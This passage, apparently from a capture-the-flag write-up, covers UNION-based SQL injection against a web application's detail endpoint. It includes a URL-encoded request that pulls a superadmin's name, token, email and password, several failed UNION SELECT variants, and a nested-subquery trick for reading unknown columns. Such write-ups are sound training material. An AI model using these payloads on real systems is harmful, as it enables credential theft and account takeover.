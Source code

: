 And change the superadmin's password! I'll change it to `letmein1234!`


`GET /detail/1,2%20UNION%20SELECT%20*%20FROM%20(SELECT%201)a%20JOIN%20(SELECT%20name%20from%20users%20where%20id%20=%201)b%20JOIN%20(select%20token%20from%20users%20where%20id%20=%201)c%20JOIN%20(SELECT%20email%20from%20users%20where%20id%20=%201)d%20JOIN%20(SELECT%20password%20from%20users%20where%20id%20=%201)e%20JOIN%20(SELECT%206)f%20JOIN%20(SELECT%207)g-- HTTP/2`

## Hacker voice: "I'm in."
![I'm in](/img/obj12-4/img8.png)

Fun stuff, but I want to see the table names so I could reference any other tables.

## The Section in Which I Fumble Around Trying to Find Out What to Do

In my attempts to further enumerate the database, I did what most sensible hackers would do when presented with a MySQL database that I have very little visibility to: I attempted to enumerate the `mysql` database, or the `information_schema` database, both of which wound up being a fruitless endeavor.

The following weird attempts didn't seem to work!

`union select * from (select 1)a JOIN (SELECT table_name FROM mysql.innodb_table_stats)b on 1=1`

`UNION SELECT * FROM (SELECT 1)a JOIN (SELECT name from users where id = 1)b JOIN (select token from users where id = 1)c JOIN (SELECT email from users where id = 1)d JOIN (SELECT password from users where id = 1)e JOIN (SELECT 6)f JOIN (SELECT 7)g`

`union select * from (select 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d JOIN (SELECT 5)e JOIN (SELECT 6)f JOIN (SELECT 7)g on 1=1 -- -`

`union select * from (select 1)a JOIN (SELECT 2)b JOIN (select 1 from (select 1 union select name from users limit 1))c JOIN (SELECT 4)d JOIN (SELECT 5)e JOIN (SELECT 6)f JOIN (SELECT 7)g on 1=1 -- -`

It was so bad that the best way I discovered to work on my SQL Injection skills was to build a MySQL database in a Docker container and attempt to create a very similar schema with contrived data built-in.

![Me Messing with Stuff](/img/obj12-4/img11.png)

Eventually I came up with the following method to find data from a table which I _assumed_ was there, but had no idea how to reference any of the table's columns. There are two lines here because the top one is tab-delimited for viewability, and the bottom query was flattened:

```sql
select * from users 
where id=-1 
    union select * from 
        (select 1)a join
        (select 2)b join
        (select f.3 from
            (select * from
                (select 1)z join
                (select 2)y join
                (select 3)x join
                (select 4)w join
                (select 5)v join
                (select 6)u join
                (select 7)t 
                union select * from users limit 1 offset 2
            )f
        )c;

```